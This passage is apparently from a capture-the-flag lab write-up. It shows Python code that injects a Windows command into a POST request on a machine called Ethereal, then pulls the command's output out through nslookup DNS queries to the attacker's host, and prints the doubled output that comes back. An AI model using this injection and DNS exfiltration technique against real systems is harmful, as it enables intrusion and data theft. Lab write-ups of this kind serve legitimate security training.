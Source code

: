 I lose spacing, `/`, and any line with `..` in it. But other than that, it’s pretty solid.

### Updating Command Sending

Now I just need to update `default()` to generate the command string and send it. I’ll need to start with a `&` to add another command, then put my loop:

```

 55     def default(self, args):
 56         command = f'''& (FOR /F "tokens=1-26" %a IN ('{args}') DO ( nslookup "Q%aX.Q%bX.Q%cX.Q%dX.Q%eX.Q%fX.Q%gX.Q%hX.Q%iX.Q%jX.Q%kX.Q%lX.Q%mX.Q%nX.Q%oX.Q%pX.Q%qX.Q%rX.Q%sX.Q%tX.Q%uX.Q%vX.Q%wX.Q%xX.Q%yX.Q%zX" 10.10.14.14 ))'''
 57         self.send_post(command)

```

### Double Replies

What I have now kind of works, but it’s printing everything twice:

```

ethereal> whoami
etherealalan
etherealalan
ethereal> dir \
Volume in drive C has no label.
Volume in drive C has no label.
Volume Serial Number is FAD9-1FD5
Volume Serial Number is FAD9-1FD5
Directory of c:
Directory of c:
07/07/2018 09:57 PM <DIR> Audit
07/07/2018 09:57 PM <DIR> Audit
06/30/2018 10:10 PM <DIR> inetpub
06/30/2018 10:10 PM <DIR> inetpub
06/26/2018 05:51 AM <DIR> Program Files
06/26/2018 05:51 AM <DIR> Program Files
07/16/2018 08:55 PM <DIR> Program Files (x86)
07/16/2018 08:55 PM <DIR> Program Files (x86)
07/05/2018 09:38 AM <DIR> Users
07/05/2018 09:38 AM <DIR> Users
07/01/2018 09:57 PM <DIR> Windows
07/01/2018 09:57 PM <DIR> Windows
0 File(s) 0 bytes
0 File(s) 0 bytes
6 Dir(s) 15,415,119,872 bytes free
6 Dir(s) 15,415,119,872 bytes free

```

If I watch in `tcpdump`, I’ll see that each query is coming in multiple times. Here’s the line `06/30/2018 10:10 PM <DIR> inetpub` in 5 queries:
